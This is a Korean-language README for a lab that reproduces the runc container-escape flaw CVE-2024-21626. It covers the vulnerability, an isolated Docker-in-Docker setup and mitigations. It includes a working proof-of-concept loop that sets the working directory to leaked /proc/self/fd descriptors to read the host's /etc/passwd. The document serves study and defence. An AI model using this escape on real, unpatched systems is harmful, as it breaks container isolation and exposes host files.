


# CVE-2024-21626

## Contributors

- 김민후 ( 화이트햇 스쿨 4기)

## 취약점 요약

runc는 Docker, Kubernetes 등 대부분의 컨테이너 플랫폼이 실제로 컨테이너를
생성·실행할 때 내부적으로 사용하는 저수준 OCI 컨테이너 런타임이다.

runc `v1.0.0-rc93` 이상 `1.1.11` 이하 버전에서 파일 디스크립터(fd) 누수
취약점이 발견되었다("Leaky Vessels"). runc가 컨테이너를 생성하는 과정에서
호스트의 `/sys/fs/cgroup`을 가리키는 fd를 닫지 않고 컨테이너 프로세스에
그대로 상속시키며, 동시에 작업 디렉토리(cwd) 설정을 그 fd 정리보다 먼저
수행한다. 공격자가 컨테이너의 작업 디렉토리(WORKDIR)를 `/proc/self/fd/N`
(누수된 fd 번호)으로 지정하면, 컨테이너 프로세스의 cwd가 호스트 파일시스템
위에 위치하게 되어 컨테이너 격리를 벗어나 호스트 파일시스템에 접근할 수
있다. 이 문제는 `1.1.12`에서 패치되었다.

- **CVSS 3.1**: `AV:L/AC:L/PR:N/UI:R/S:C/C:H/I:H/A:H` — **8.6 (High)**
  - `S:C`(Scope Changed): 취약점이 존재하는 보안 경계(컨테이너)를 넘어
    다른 경계(호스트)까지 영향이 전파되는 것이 이 취약점의 핵심이다.
  - `UI:R`: 피해자가 `docker run`/`docker exec`를 직접 실행해야 발동하므로,
    공급망(악성 이미지) 공격 경로가 핵심 위협 시나리오다.

## 참고 자료

- https://github.com/opencontainers/runc/security/advisories/GHSA-xr7r-f8xq-vfvv
- https://www.cve.org/CVERecord?id=CVE-2024-21626
- https://ubuntu.com/security/CVE-2024-21626

## 환경 구성

이 CVE는 runc 단독 호출이 아니라 **Docker 엔진(dockerd + containerd)이 실제로
컨테이너를 생성하는 과정**을 거쳐야 재현된다. 이를 채점 환경과 완전히 분리
하기 위해, Docker-in-Docker(DinD) 컨테이너 하나에 취약 버전 조합(Docker
`25.0.1` 기반 + runc `v1.1.11`)을 통째로 격리시켰다.

- `Dockerfile`: 공식 `docker:25.0.1-dind` 이미지 위에서 취약 버전
  runc(`v1.1.11`)를 소스로 직접 빌드하여 교체
- `docker-compose.yml`: 위 이미지를 빌드하고 `privileged` 모드로 기동
- `poc.sh`: 컨테이너 내부 Docker 엔진이 준비되면 취약 버전 확인 → 정상
  케이스 → fd 탐색 및 탈출 시도를 자동 수행

탈출이 성공하더라도 도달하는 "호스트"는 이 DinD 컨테이너 내부로 한정되며,
실행 호스트(채점자 PC)의 Docker/파일시스템에는 전혀 영향을 주지 않는다.

```bash
docker compose up -d --build
```

`docker:25.0.1-dind` 이미지를 받고 그 안에서 취약 버전 runc를 소스 빌드하는
과정이 포함되어 있어 최초 빌드는 수 분 정도 소요된다. 빌드가 끝나면
`docker compose ps`로 `cve-2024-21626-dind` 컨테이너가 `Up` 상태인지
확인한다.

## 취약 조건

- runc 버전이 `v1.0.0-rc93` 이상 `1.1.11` 이하일 것
- 공격자가 컨테이너의 작업 디렉토리(`-w` 옵션 또는 Dockerfile의 `WORKDIR`)를
  임의로 지정할 수 있을 것 (예: 악성 이미지 실행, 또는 `docker exec`로 조작
  가능한 이미 장악된 컨테이너)

## 재현 절차

### 1. 취약 runc 버전 확인

```bash
docker exec -it cve-2024-21626-dind runc --version
```

`runc version 1.1.11`이 출력되어야 한다.

### 2. 정상 케이스 (대조군)

```bash
docker exec -it cve-2024-21626-dind \
  docker run --rm ubuntu:20.04 bash -c "cat /etc/passwd | head -3"
```

일반적인 컨테이너 실행에서는 컨테이너 자신의 `/etc/passwd`(우분투 컨테이너
기본 계정 목록)만 보여야 한다.

### 3. fd 탐색 및 컨테이너 탈출

```bash
docker exec -it cve-2024-21626-dind /poc.sh
```

`poc.sh`가 작업 디렉토리(`-w`)를 fd 4~20 순서대로 지정하며 호스트
`/etc/passwd` 접근 여부를 자동으로 탐색한다.

### 4. 환경 종료

```bash
docker compose down
```

## PoC 코드

`poc.sh`의 핵심 로직은 다음과 같다. (전체 코드는 [`poc.sh`](poc.sh) 참고)

```bash
for i in $(seq 4 20); do
    echo "--- fd $i ---"
    docker run --rm -w "/proc/self/fd/$i" ubuntu:20.04 \
      bash -c "cat /proc/self/cwd/../../../../../../etc/passwd" 2>&1
done
```

runc가 컨테이너 생성 시 흘리는 호스트 `/sys/fs/cgroup` fd의 정확한 번호는
빌드/실행 환경에 따라 달라지므로, 작업 디렉토리를 fd 4~20 순서대로 지정해가며
호스트 파일 접근 여부를 탐색한다.

## 실행 결과

취약 runc 버전 확인 결과이다.



본 환경에서는 ** fd 8**에서 컨테이너 탈출이 재현되었다. 출력된 계정
목록은 `ubuntu:20.04` 컨테이너 내부의 파일이 아니라, **DinD 컨테이너(=이
재현 환경의 "호스트")의 실제 `/etc/passwd`**이다. 특히 `dockremap` 계정
(Docker 엔진이 user-namespace 매핑을 위해 자체적으로 생성하는 계정으로,
일반 `ubuntu:20.04` 이미지에는 존재하지 않는다)이 그대로 노출되는 것을
통해, 컨테이너 격리가 완전히 우회되어 DinD 호스트 파일시스템에 도달했음을
확인할 수 있다.



## 대응 방안

- **runc `1.1.12` 이상 / Docker `25.0.2` 이상으로 업그레이드**한다. 패치판은
  작업 디렉토리 경로가 컨테이너 루트 파일시스템 내부에 실제로 존재하는지
  검증하여 본 취약점을 차단한다.
- **신뢰할 수 없는 이미지 실행을 제한**한다. 공급망 경로가 핵심 공격
  벡터이므로, 이미지 서명 검증(Docker Content Trust, Cosign 등) 및 신뢰된
  레지스트리만 허용하는 정책을 적용한다.
- **런타임 탐지 룰 적용**: Falco 등으로 프로세스의 작업 디렉토리(`cwd`)가
  `/proc/self/fd`로 시작하는 비정상적인 `execve` 호출을 탐지하는 규칙을
  구성한다.
- **최소 권한 원칙**: 불필요한 `--privileged` 실행을 지양하고, 컨테이너
  런타임에 필요한 최소한의 capability만 부여한다.
